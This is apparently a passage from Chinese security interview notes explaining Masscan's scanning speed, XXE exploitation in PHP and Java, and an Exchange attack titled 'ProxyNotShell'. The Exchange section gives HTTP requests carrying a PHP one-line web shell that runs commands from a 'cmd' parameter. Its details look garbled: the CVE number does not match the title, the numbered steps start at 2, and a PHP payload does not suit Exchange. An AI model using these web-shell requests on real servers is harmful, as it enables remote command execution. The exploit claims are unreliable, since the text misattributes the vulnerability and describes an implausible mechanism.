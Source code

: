 > Masscan是一款快速的端口扫描器，它采用异步的、事件驱动的I/O模型和自己实现的TCP/IP协议栈，以及高效的端口扫描算法，使其具有很高的扫描速度。具体来说，Masscan的快速扫描原因包括以下几个方面：
>
> 1. 异步的、事件驱动的I/O模型：Masscan使用异步的I/O模型，减少了I/O等待时间，提高了CPU的利用率。
> 2. 自己实现的TCP/IP协议栈：Masscan使用自己实现的TCP/IP协议栈，减少了系统调用次数，提高了扫描效率。
> 3. 高效的端口扫描算法：Masscan采用高效的端口扫描算法，包括分块扫描和TCP SYN扫描等方式，提高了扫描效率。
> 4. 多线程和分布式支持：Masscan支持多线程和分布式扫描，利用多核CPU和多台机器进行扫描，进一步提高了扫描效率。
>
> 综上所述，Masscan的快速扫描原因主要是由于其采用了**高效的I/O模型、自己实现的协议栈、高效的端口扫描算法以及多线程和分布式支持。**

### 25. XXE漏洞产生的原理，针对PHP和JAVA，XXE分别可以进行哪些恶意利用

> XXE（XML External Entity）漏洞是一种安全漏洞，主要是由于在解析XML数据时，未正确禁止或过滤外部实体，导致攻击者可以通过构造恶意的XML数据来读取服务器上的任意文件、执行任意命令等攻击。
>
> 对于PHP环境，XXE漏洞利用的基本原理是通过发送带有外部实体引用的恶意XML数据，然后读取敏感数据。例如，攻击者可以构造恶意的XML数据，在其中引用一个URL，然后将其作为HTTP POST请求的一部分发送到应用程序中。当服务器解析该请求并尝试获取外部实体时，攻击者就可以通过该URL读取文件内容，进而实现文件读取等攻击。
>
> 对于Java环境，XXE漏洞的利用过程也是通过构造恶意的XML数据，然后发送给应用程序解析。攻击者可以在恶意XML数据中引用一个外部实体，通过读取服务器上的文件或执行任意命令来攻击目标系统。此外，由于Java的XXE漏洞可能导致RCE（远程代码执行），攻击者可以通过构造Payload来执行操作系统命令或上传Webshell等。
>
> 需要注意的是，针对XXE漏洞的恶意利用并不仅限于读取敏感信息和执行任意命令。例如，在Java中，XXE漏洞还可以利用Spring Framework进行攻击，通过利用XXE漏洞读取应用程序上下文中的任意对象、创建新的用户等。
>
> 综上所述，XXE漏洞可能会给Web应用程序带来严重的安全风险。建议开发人员在编写代码时，对输入的XML数据进行充分过滤和验证，特别是对外部实体进行禁止或限制。同时，使用安全编程实践，如最小特权原则、输入验证和输出编码等，可以最大程度地降低XXE漏洞的风险。

### 26. ProxyNotShell

CVE-2021-27065

修补ProxyLogon漏洞的更新中,微软仅过滤了HTTP代理头中的 certain 字段,未过滤Proxy 字段。攻击者可以构造恶意的 Proxy 头,在修补过的 Exchange 服务器上触发远程代码执行。

2. 构造恶意的Proxy头。一个例子如下:

```http
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?> 
```

3. 发送包含恶意Proxy头的HTTP请求到Exchange服务器。例如:

```http
GET /ews/exchange.asmx HTTP/1.1
Host: target
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?>
```

4. 在同一个请求中添加cmd参数执行系统命令,例如:

```http
GET /ews/exchange.asmx?cmd=whoami HTTP/1.1
Host: target
Proxy: <?php $cmd=$_GET["cmd"]; system($cmd); ?>
```
